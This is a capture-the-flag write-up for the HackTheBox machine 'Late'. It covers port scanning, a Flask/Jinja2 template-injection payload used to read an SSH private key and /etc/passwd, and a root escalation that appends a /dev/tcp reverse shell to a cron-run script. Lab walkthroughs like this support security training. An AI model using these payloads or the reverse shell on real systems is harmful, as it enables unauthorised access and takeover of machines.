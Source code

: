 ```yaml
---
layout: post
title: "HTB | Late"
permalink: /ctf/htb/lab/late/
---
```


<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/lab/img/Late.png" style="text-align: center" weight="100%" />

# Enumeration
After the ping we can guess that is a Linux.
The ports scan give us:
{% highlight plain %}
# Nmap 7.92 scan initiated Sat May 28 20:31:36 2022 as: nmap -p- -sS --min-rate 5000 -oG ports 10.10.11.156
Host: 10.10.11.156 ()	Status: Up
Host: 10.10.11.156 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
{% endhighlight %}

Then we scan the ports:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-28 20:32 CEST
Nmap scan report for 10.10.11.156
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

We can see a webpage. Searching **http://10.10.11.156/index.php** give us error 404, so the page doesn't use php.
We see a subdomain referer as: http://images.late.htb/, so we add it to the **/etc/hosts**.

&nbsp;
---

# Foothold

We see it works with **flask**. We can search for it and get some [possible explotation](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee).
Let's try adding the text to an image like this:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/lab/img/ss158.png" style="text-align: center" weight="100%" />

This gives the following text:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/lab/img/ss157.png" style="text-align: center" weight="100%" />

Now that we know is vulnerable we need to search for the param **subprocess.Popen**.
- Do the following search with a new image: **{{ ‘’.__class__.__mro__[1].__subclasses__() }}**.
- Parse it with the following script: [flaskVulnParam](https://github.com/zeropio/the_helpful_scripts/blob/main/other/flaskVulnParam.py)

Now the have the index of the field: **249**. We can check it searching for: **{{‘’.__class__.__mro__[1].__subclasses__()[249]}}**.
Now we try to get the **RSA**, cause we know it has OpenSSH:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/lab/img/ss159.png" style="text-align: center" weight="100%" />

This will give us the RSA file. Now we need to get the **/etc/passwd** as well. Let replace **\n** in both files with the proper spaces.
Now we can connect to the machine. First we need to find a user that has the shell enable and then give permission to the rsa file:
{% highlight plain %}
> chmod 400 rsa
> ssh -i rsa svc_acc@10.10.11.15
{% endhighlight %}

&nbsp;
---

# Privilage Escalation

With **linPEAS.sh** we found the an editable folder with the script **ssh-alert.sh**, which is executed by the root in crontab and when a 
user login with ssh.
Let's add an reverse shell there:
{% highlight plain %}
# In our machine
> nc -lvnp 9000

# In the target machine
> $ echo "sh -i >& /dev/tcp/10.10.14.185/9000 0>&1" >> ssh-alert.sh; ssh localhost
{% endhighlight %}

And the machine is pwned.